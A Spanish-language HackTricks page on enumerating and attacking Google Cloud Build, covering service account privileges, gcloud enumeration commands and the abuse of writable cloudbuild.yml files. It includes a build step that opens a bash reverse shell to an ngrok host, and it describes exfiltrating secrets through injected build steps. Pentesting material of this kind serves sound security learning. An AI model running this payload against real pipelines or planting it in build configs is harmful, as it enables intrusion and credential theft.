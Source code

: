 # GCP - Enumeración de Cloud Build

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop).
* Obtén el [**merchandising oficial de PEASS y HackTricks**](https://peass.creator-spring.com).
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family).
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) en GitHub.

</details>

## Información básica

Google Cloud Build es una plataforma de CI/CD administrada que **automatiza la construcción de software** y los procesos de lanzamiento, integrándose con **repositorios de código fuente** y admitiendo una amplia gama de lenguajes de programación. Permite a los desarrolladores **construir, probar e implementar código automáticamente** al tiempo que brinda flexibilidad para personalizar los pasos de construcción y los flujos de trabajo.

Cada desencadenador de Cloud Build está **relacionado con un repositorio de Cloud o conectado directamente con un repositorio externo** (Github, Bitbucket o Gitlab).

Es posible configurar un Cloud Build para **requerir aprobaciones para las ejecuciones de construcción** (desactivado de forma predeterminada).

La **Cuenta de servicio tiene el alcance `cloud-platform`**, por lo que puede **utilizar todos los privilegios**. Si **no se especifica una cuenta de servicio** (como al realizar una presentación), se utilizará la **cuenta de servicio predeterminada** `<número-proyecto>@cloudbuild.gserviceaccount.com`.

{% hint style="success" %}
No pude encontrar ninguna forma de robar el token de Github/Bitbucket desde aquí o desde los Repositorios de Cloud porque cuando se descarga el repositorio se accede a través de una URL [https://source.cloud.google.com/](https://source.cloud.google.com/) y el cliente no accede a Github.
{% endhint %}

### Almacenamiento

A veces, Cloud Build **generará un nuevo almacenamiento para almacenar los archivos del desencadenador**. Esto ocurre, por ejemplo, en el ejemplo que GCP ofrece con:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Se crea un bucket de almacenamiento llamado [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) para almacenar un archivo `.tgz` con los archivos a utilizar.

### Obtener shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Enumeración

Podrías encontrar **información sensible en las configuraciones y registros de compilación**.
```bash
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs
```
## Escalada de privilegios

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Acceso no autenticado

### cloudbuild.yml

Si logras obtener acceso de escritura sobre un repositorio que contiene un archivo llamado **`cloudbuild.yml`**, podrías **insertar un acceso no autorizado** en este archivo, el cual especifica los **comandos que se ejecutarán** dentro de un Cloud Build y exfiltrar los secretos, comprometer lo que se está haciendo y también comprometer la **cuenta de servicio de Cloud Build**.

{% hint style="info" %}
Ten en cuenta que GCP tiene la opción de permitir a los administradores controlar la ejecución de sistemas de compilación desde PR externos a través de "Comment Control". Comment Control es una función en la que los colaboradores/propietarios del proyecto **deben comentar "/gcbrun" para activar la compilación** en el PR y el uso de esta función impide inherentemente que cualquier persona en Internet active tus sistemas de compilación.
{% endhint %}

Para obtener información relacionada, puedes consultar la página sobre cómo atacar a Github Actions (similar a esto):

{% content-ref url="../../../pentesting-ci-cd/github-security/abusing-github-actions/" %}
[abusing-github-actions](../../../pentesting-ci-cd/github-security/abusing-github-actions/)
{% endcontent-ref %}

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF**, ¡consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**merchandising oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
